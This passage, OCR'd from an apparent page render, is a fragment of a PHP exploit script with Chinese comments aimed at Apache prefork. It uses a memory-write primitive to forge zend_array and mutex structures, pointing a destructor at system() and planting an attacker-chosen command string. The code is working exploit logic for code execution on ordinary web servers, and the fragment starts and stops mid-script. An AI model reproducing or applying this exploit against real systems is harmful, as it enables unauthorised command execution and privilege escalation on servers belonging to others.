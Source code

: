 ```

$child_init = $evil_mutex_methods_start_addr+0x30;

echo “child_init(0x”.dechex($child_init).") => zend_object_std_dtor\n";

write_mem_qword($evil_mutex_methods_start_addr+0x30,$zend_object_std_dtor_addr);

//将混合结构zend_array的pDestructor指向system

$pDestructor = $evil_zend_array_start_addr + 0x30;

echo “pDestructor(0x”.dechex($pDestructor).") => system\n";

write_mem_qword($pDestructor,$system_addr);

//将混合结构zend_array的meth指向apr_proc_mutex_unix_lock_methods_t

$meth = $evil_zend_array_start_addr + 0x8;

echo “meth(0x”.dechex($meth).") => mutex_mthods_struct\n";

write_mem_qword($meth,$evil_mutex_methods_start_addr);

write_mem_qword($evil_zend_array_start_addr,0x1);

//将prefork_child_bucket中的mutex指向混合结构zend_array

$mutex = $evil_parent_start_addr + 0x10;

echo “mutex(0x”.dechex($mutex).") => zend_array struct\n";

write_mem_qword($mutex,$evil_zend_array_start_addr);

//将混合结构prefork_child_bucket中的properties指向zend_array结构

$properties = $evil_parent_start_addr + 0x20+0x10;

echo “properties(0x”.dechex($properties).") => zend_array struct\n";

write_mem_qword($properties,$evil_zend_array_start_addr);

//system 字符串 写入

for($i = 0;$i<strlen($evil_string);$i++){

$b = ord($evil_string[$i]);

write_mem($evil_string_start_addr+$i,$b);

}

write_mem($evil_string_start_addr+$i,0);

//将zend_array中的arData指向system字符串

$ar_data = $evil_zend_array_start_addr + 0x10;

echo “ar_data(0x”.dechex($ar_data).") => evil string\n";

write_mem_qword($ar_data,$evil_string_start_addr);

//将zend_array中的nNumUsed设置为1，（自行分析代码去）

```